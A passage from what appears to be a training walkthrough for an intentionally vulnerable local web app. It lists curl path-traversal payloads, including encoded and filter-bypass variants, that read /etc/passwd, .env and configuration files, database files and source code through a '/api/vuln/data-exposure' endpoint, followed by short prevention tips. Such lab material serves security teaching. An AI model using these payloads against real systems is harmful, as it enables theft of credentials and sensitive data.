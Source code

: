 ```bash
curl "http://localhost:5000/api/vuln/data-exposure?file=../../../etc/passwd"
```

**Alternative payloads:**
```bash
curl "http://localhost:5000/api/vuln/data-exposure?file=..\\..\\..\\windows\\system32\\drivers\\etc\\hosts"
curl "http://localhost:5000/api/vuln/data-exposure?file=....//....//....//etc/passwd"
curl "http://localhost:5000/api/vuln/data-exposure?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"
```

**Explanation:** Try to access system files through path traversal to read sensitive configuration files.

#### Step 3: Configuration Files
**Objective:** Look for exposed configuration files

```bash
curl "http://localhost:5000/api/vuln/data-exposure?file=.env"
curl "http://localhost:5000/api/vuln/data-exposure?file=config.php"
curl "http://localhost:5000/api/vuln/data-exposure?file=web.config"
curl "http://localhost:5000/api/vuln/data-exposure?file=application.properties"
```

**Explanation:** Attempt to access environment files and configuration files that often contain database credentials and API keys.

#### Step 4: Database Files
**Objective:** Try to access database files directly

```bash
curl "http://localhost:5000/api/vuln/data-exposure?file=database.sqlite"
curl "http://localhost:5000/api/vuln/data-exposure?file=data.db"
curl "http://localhost:5000/api/vuln/data-exposure?file=backup.sql"
```

**Explanation:** Look for direct access to database files that might contain sensitive user data.

#### Step 5: Source Code Access
**Objective:** Attempt to read application source code

```bash
curl "http://localhost:5000/api/vuln/data-exposure?file=app.js"
curl "http://localhost:5000/api/vuln/data-exposure?file=index.php"
curl "http://localhost:5000/api/vuln/data-exposure?file=main.py"
curl "http://localhost:5000/api/vuln/data-exposure?file=package.json"
```

**Explanation:** Try to access source code files that might contain hardcoded secrets, credentials, or business logic.

### Prevention Measures
1. Encrypt sensitive data at rest and in transit
2. Implement proper access controls and file permissions
3. Use secure file permissions (avoid world-readable files)
4. Remove debug information from production environments
5. Regular security scanning for exposed files and directories

---